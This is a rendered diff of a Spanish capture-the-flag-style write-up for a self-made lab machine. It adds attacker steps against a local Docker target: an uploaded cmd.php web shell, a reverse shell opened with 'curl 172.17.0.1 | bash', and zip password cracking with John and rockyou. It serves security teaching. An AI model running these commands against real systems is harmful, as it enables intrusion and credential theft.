

Before and after one commit to azraelp/Proyecto-Final, a Markdown page: Maquinas/Diseño Inseguro/Explicación máquina.md, 3 parts joined by grey strips. Shown at 82% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

```diff
--- a/Maquinas/Diseño Inseguro/Explicación máquina.md
+++ b/Maquinas/Diseño Inseguro/Explicación máquina.md
@@ -66,7 +66,7 @@ Para configurar el entorno utilizaremos un contenedor Docker con el sistema oper
 
 ## WriteUp (vista atacante)
 
-Realizamos un escaneo de los puertos de la maquina y lo exportamos a un fichero
+Realizamos un escaneo de los puertos de la maquina y lo exportamos a un fichero.
 
 ![](Imagenes/1_diseñoInseguro.png)
 
@@ -74,15 +74,15 @@ Con un script en python extraemos los puertos del fichero e identificamos que so
 
 ![](Imagenes/2_diseñoInseguro.png)
 
-Sabiendo los puertos realizamos un escaneo de los puertos para saber sus versiones y ejecutar unos scripts basicos para identificar alguna vulnerabilidad mediante **nmap**
+Sabiendo los puertos realizamos un escaneo de los puertos para saber sus versiones y ejecutar unos scripts basicos para identificar alguna vulnerabilidad mediante **nmap**.
 
 ![](Imagenes/3_diseñoInseguro.png)
 
-Accedemos a la web y mediante Wappalyzer visualizamos información acerca de la pagina web, por ejemplo, visualizamos que interpreta php.
+Accedemos a la web y mediante **Wappalyzer** visualizamos información acerca de la pagina web, por ejemplo, detectamos que la web interpreta codigo **php**.
 
 ![](Imagenes/4_diseñoInseguro.png)
 
-Utilizamos **WFUZZ** para escanear la pagina web e identificar rutas escondidas, de esta forma encontramos las rutas **ftp** y **documents**
+Utilizamos **WFUZZ** para escanear la pagina web e identificar rutas escondidas, de esta forma encontramos las rutas **ftp** y **documents**.
 
 ![](Imagenes/5_diseñoInseguro.png)
 
@@ -122,17 +122,23 @@ Este fichero lo llamamos **cmd.php** y lo subimos dentro del directorio **elijah
 ![](Imagenes/14_diseñoInseguro.png)
 ![](Imagenes/13_diseñoInseguro.png)
 
-En la web accedemos a
+En la web accedemos a **http://172.17.0.2/documents/elijah/cmd.php** y vemos que aqui se encuentra el fichero cmd.php que hemos subido mediante **FTP**.
+
+Para verificar que podemos ejecutar comandos, escribimos lo siguiente en la web **http://172.17.0.2/documents/elijah/cmd.php?cmd=whoami** y nos devuelve que el usuario que ejecuta los comandos es **www-data**.
 
 ![](Imagenes/15_diseñoInseguro.png)
 
-Realizamos un escaneo de los puertos de la maquina.
+Con el siguiente comando verificamos que nos encontramos en la maquina **http://172.17.0.2/documents/elijah/cmd.php?cmd=ifconfig**.
 
 ![](Imagenes/16_diseñoInseguro.png)
 
-Realizamos un escaneo de los puertos de la maquina.
+Previamente a ejecutar una reverse shell, debemos crear un fichero **index.html** que compartiremos mediante un servidor web en python, además de ponernos en escucha por el puerto 443.
+
+![](Imagenes/18_diseñoInseguro.png)
+
+Para ejecutarnos una reverse shell escribiremos lo siguiente en la URL **http://172.17.0.2/documents/elijah/cmd.php?cmd=curl 172.17.0.1 | bash**.
 
 ![](Imagenes/17_diseñoInseguro.png)
 
-Realizamos un escaneo de los puertos de la maquina.
+Desde el terminal que estamos en escucha por el **puerto 443** obtenemos una **reverse shell** a la maquina con el usuario **www-data**.
 
@@ -152,28 +154,32 @@ Realizamos un escaneo de los puertos de la maquina.
 
-Realizamos un escaneo de los puertos de la maquina.
+Tambien calcumos el hash md5 para verificar si ambos hash (original y descargado en la maquina atacante) del fichero **caroline.jpg** son iguales.
+
+Además si miramos los usuarios del sistema, vemos que **caroline** es una usuaria del sistema la cual se puede hacer **login**.
+
+![](Imagenes/23_diseñoInseguro.png)
+
+Desde nuestra maquina atacante descargamos el fichero **caroline.jpg** y calculamos el hash md5 para verificar que coincide con la maquina atacada.
 
 ![](Imagenes/22_diseñoInseguro.png)
 
-Realizamos un escaneo de los puertos de la maquina.
-
-![](Imagenes/23_diseñoInseguro.png)
-
-Realizamos un escaneo de los puertos de la maquina.
+Con la herramienta **binwalk** detectamos la imagen **caroline.jpg** tiene un fichero **zip** escondido, por lo cual lo extraemos.
 
 ![](Imagenes/24_diseñoInseguro.png)
 
-Realizamos un escaneo de los puertos de la maquina.
+Intentamos descomprimir el fichero **zip** pero se encuentra protegido con contraseña.
 
 ![](Imagenes/25_diseñoInseguro.png)
 
-Realizamos un escaneo de los puertos de la maquina.
+Con la herramienta de **zip2john** extraemos el hash del fichero **zip** y guardamos el hash en un fichero **hash.txt**.
 
 ![](Imagenes/26_diseñoInseguro.png)
 
-Realizamos un escaneo de los puertos de la maquina.
+Con la herramienta de **John** crackeamos la contraseña del fichero **hash.txt** con el diccionario de contraseñas de **rockyou.txt**.
+
+De esta forma obtenemos la contraseña del fichero **zip** que es **hellokitty**.
 
 ![](Imagenes/27_diseñoInseguro.png)
 
-Realizamos un escaneo de los puertos de la maquina.
+Extraemos el contenido del **zip** y vemos que se nos ha extraído un fichero **pwd.txt** que si mostramos su contenido vemos un listado con muchas contraseñas.
 
 ![](Imagenes/28_diseñoInseguro.png)
```
Also changed, not shown: other parts of Maquinas/Diseño Inseguro/Explicación máquina.md (+52 -8 lines).
